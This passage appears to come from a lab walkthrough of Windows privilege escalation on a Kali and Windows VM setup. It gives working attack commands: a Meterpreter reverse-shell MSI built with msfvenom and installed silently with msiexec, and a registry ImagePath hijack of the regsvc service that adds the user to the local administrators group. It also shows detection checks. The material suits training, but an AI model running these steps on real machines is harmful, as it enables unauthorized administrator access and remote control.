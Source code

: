 3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.

Windows VM
1. Place ‘setup.msi’ in ‘C:\Temp’.
2. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi
3. It  is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Registry
### Detection
Windows VM
1. Open powershell prompt and type: Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
2. Notice that the output suggests that user belong to “NT  AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry  key.

### Exploitation
Windows VM
1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

Kali VM
1. Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
3. Copy the generated file x.exe, to the Windows VM.

Windows VM
1. Place x.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
3. In the command prompt type: sc start regsvc
4.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Exec Path
### Detection
Windows VM
1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.
